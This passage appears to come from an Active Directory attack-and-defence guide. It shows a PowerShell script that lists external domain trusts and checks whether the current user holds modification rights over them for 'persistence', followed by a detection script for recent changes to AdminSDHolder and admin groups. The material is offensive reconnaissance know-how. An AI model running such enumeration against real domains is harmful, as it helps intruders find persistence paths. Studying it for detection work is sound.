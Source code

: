 #### **2. SD Persistence via Trust Modification**
```powershell
# Objective: Modify trust relationships for persistence
# Impact: Persistent access through trust abuse

Write-Host "=== SD PERSISTENCE VIA TRUST MODIFICATION ===" -ForegroundColor Red

# Step 1: Enumerate existing trusts
$trusts = Get-DomainTrust -Properties *
$externalTrusts = $trusts | Where-Object {$_.TrustType -eq "External"}

Write-Host "Found $($externalTrusts.Count) external trusts" -ForegroundColor Yellow

foreach($trust in $externalTrusts) {
    Write-Host "Trust: $($trust.SourceName) -> $($trust.TargetName)" -ForegroundColor Cyan
    Write-Host "  Trust Direction: $($trust.TrustDirection)" -ForegroundColor White
    Write-Host "  Trust Attributes: $($trust.TrustAttributes)" -ForegroundColor White
    
    # Step 2: Check trust modification rights
    $trustACLs = Get-DomainObjectAcl -Identity $trust.SourceName -ResolveGUIDs
    $currentUser = $env:USERNAME
    
    $hasTrustAccess = $trustACLs | Where-Object {
        $_.IdentityReference -like "*\$currentUser" -and
        ($_.ActiveDirectoryRights -like "*WriteProperty*" -or $_.ActiveDirectoryRights -like "*GenericAll*")
    }
    
    if($hasTrustAccess) {
        Write-Host "  User has trust modification rights" -ForegroundColor Green
        Write-Host "  Trust modification possible for persistence" -ForegroundColor Red
    } else {
        Write-Host "  User does not have trust modification rights" -ForegroundColor Red
    }
}
```

### **SD Persistence Detection and OPSEC**

#### **SD Persistence Detection**
```powershell
# Monitor for SD persistence attempts
# Event IDs: 5136 (Directory Service Changes), 4662 (Object Access)

Write-Host "=== SD PERSISTENCE DETECTION ===" -ForegroundColor Yellow

# Check for recent SD modifications
$highValueObjects = @("Domain Admins", "Enterprise Admins", "AdminSDHolder")
$recentModifications = @()

foreach($obj in $highValueObjects) {
    try {
        $object = Get-DomainObject -Identity $obj -Properties whenChanged,whenCreated
        $recentModifications += [PSCustomObject]@{
            Object = $obj
            LastModified = $object.whenChanged
            Created = $object.whenCreated
            DaysSinceModification = ((Get-Date) - $object.whenChanged).Days
        }
    } catch {
        Write-Warning "Failed to analyze $obj`: $($_.Exception.Message)"
    }
}

```